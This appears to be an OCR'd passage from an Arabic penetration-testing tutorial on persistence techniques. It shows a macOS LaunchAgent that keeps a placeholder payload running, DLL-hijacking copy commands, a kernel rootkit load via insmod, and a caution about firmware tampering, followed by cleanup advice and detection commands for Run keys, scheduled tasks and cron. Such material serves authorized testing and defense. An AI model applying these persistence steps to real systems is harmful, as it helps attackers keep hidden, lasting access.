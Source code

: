   <string>com.helper</string>
  <key>ProgramArguments</key>
  <array>
    <string>/path/to/payload</string>
  </array>
  <key>RunAtLoad</key>
  <true/>
  <key>KeepAlive</key>
  <true/>
</dict>
</plist>
EOF

# تفعيل الملف
launchctl load ~/Library/LaunchAgents/com.helper.plist
تقنيات الاستمرارية المتقدمة
1. DLL Hijacking
# البحث عن DLL قابلة للاستغلال
use post/windows/gather/dll_hijack

# استبدال DLL مشروعة بنسخة ضارة
copy payload.dll C:\Program Files\Application\legitimate.dll.bak
copy malicious.dll C:\Program Files\Application\legitimate.dll
2. حقن نواة النظام (Kernel Rootkits)
# تحميل وحدة kernel للاستمرارية (مثال خطير - للعلم فقط)
insmod /path/to/rootkit.ko
3. تعديل firmware (UEFI/BIOS)
هذه تقنية متقدمة جداً وخطيرة، وتتطلب وصولاً فيزيائياً أو امتيازات مدير النظام الكاملة. لا ينصح باستخدامها حتى في اختبارات الاختراق الأخلاقية إلا بتصريح خاص ومحدد.
أفضل الممارسات للأمان

التنظيف الشامل: دائماً قم بإزالة جميع آليات الاستمرارية بعد انتهاء الاختبار
التوثيق: سجل كل آلية استمرارية تم تنفيذها
الاختبار القبلي: تأكد من أن آليات الاستمرارية لن تتسبب في تعطيل النظام
استخدام أدوات الكشف: تعلم كيفية اكتشاف آليات الاستمرارية باستخدام أدوات الأمان
المراقبة: راقب الأنظمة المستهدفة لضمان عدم حدوث آثار جانبية غير مقصودة

الكشف عن آليات الاستمرارية
# Windows - التحقق من سجل التشغيل
reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run"

# Windows - التحقق من المهام المجدولة
schtasks /query /fo LIST /v

# Linux - التحقق من مهام cron
crontab -l

# عام - استخدام أدوات التحليل الجنائي
use post/windows/gather/forensics/enum_artifacts
use post/linux/gather/enum_configs
